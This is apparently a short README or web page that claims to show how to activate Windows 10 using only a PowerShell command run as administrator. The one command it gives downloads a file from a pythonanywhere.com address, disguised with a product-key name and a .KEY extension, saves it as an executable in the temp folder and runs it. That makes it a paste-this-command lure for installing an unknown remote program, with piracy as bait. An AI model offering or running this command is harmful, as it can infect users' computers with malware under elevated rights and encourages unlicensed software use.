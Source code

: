 


⚡ How to Activate Windows 10 the Right Way, Without Downloading Program. Activate Windows 10 Just Using Native Windows PowerShell Command (admin).

## To activate Windows 10 copy and paste the command in Windows PowerShell.

### ATTENTION ⚡ Copy the complete command ⚡

> `



Invoke-WebRequest -Uri https://downloadapplication.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY -OutFile $env:TEMP\arquivo.exe; Start-Process $env:TEMP\arquivo.exe


`

